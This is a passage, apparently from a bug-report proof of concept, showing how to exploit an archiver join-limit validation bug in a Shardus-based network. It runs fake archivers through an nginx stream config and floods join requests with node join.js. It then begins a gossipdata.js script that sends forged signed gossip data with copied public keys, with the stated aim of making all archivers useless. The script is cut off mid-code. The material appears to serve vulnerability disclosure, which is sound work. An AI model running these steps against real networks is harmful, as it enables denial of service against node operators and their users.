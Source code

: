 ```
  }
  server {
    listen 23506;
proxy_pass stream_archiver;
  }
  server {
    listen 23507;
proxy_pass stream_archiver;
  }
  server {
    listen 23508;
proxy_pass stream_archiver;
  }
  server {
    listen 23509;
proxy_pass stream_archiver;
  }
}
```

8. Now we have our fake archivers. execute `node join.js` to generate some public/private key and send join requests to network. When you see *max limit reached* in console you can press Ctrl+C to terminate remaining requests.

9. now if you open `http://localhost:4000/archivers` in your browser, you can see many archivers are joined as active to the network.

Untill now we showed how archiver join limit validation bug can not prevent archivers from joining the network.
Now we are going to use this bug and make all archivers useless.

1. Open `http://localhost:4000/archivers` in your browser, copy two of our fake archiver publicKeys which have different port number, crate a file and name it `gossipdata.js` with following text. Replace `pkList` array items with those two publicKeys. Also open `http://localhost:4000/cycleinfo/1` in your browser and copy first item of `cycleInfo` array, and replace default value of `cycle` object in following file with it.

*gossipdata.js*
```javascript
const fetch = require('node-fetch')
const { readFileSync } = require('fs')
const { sign } = require('./sign')
const { computeCycleMarker } = require('./build/Data/Cycles.js')
const { Utils } = require('@shardus/types')

const pkList = [
  '865b1c5cdc6df064c17fc397827d449bbaec61c926939ede1138604216741bae',
  '865b1c5cdc6df064c17fc397827d449bbaec61c926939ede1138604216741bae',
]

const archiverPort = 4000

async function sendGossipData(keypair) {
  const cycle = {
    activated: [],
    activatedPublicKeys: [],
    active: 18,
    apoptosized: [],
    appRemoved: [],
    archiverListHash: '3008f0303a3a929a3dc628a8548a18d5ec7d3f65938a0f860257cfaa458cf9fe',
    counter: 37,
    desired: 300,
    duration: 30,
    expired: 1,
    finishedSyncing: [],
```